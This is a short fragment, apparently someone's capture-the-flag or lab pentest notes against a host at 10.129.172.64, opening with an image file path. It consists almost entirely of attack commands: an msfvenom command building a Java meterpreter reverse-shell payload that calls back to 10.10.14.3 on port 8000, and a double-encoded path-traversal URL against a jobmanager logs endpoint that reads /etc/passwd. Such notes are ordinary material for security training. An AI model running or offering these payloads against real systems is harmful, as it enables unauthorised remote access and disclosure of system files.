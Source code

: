 

10.129.172.64


```
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.14.3 LPORT=8000 -f raw -o java.jar
```


Local File Inclusion

```
http://10.129.172.64:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd

```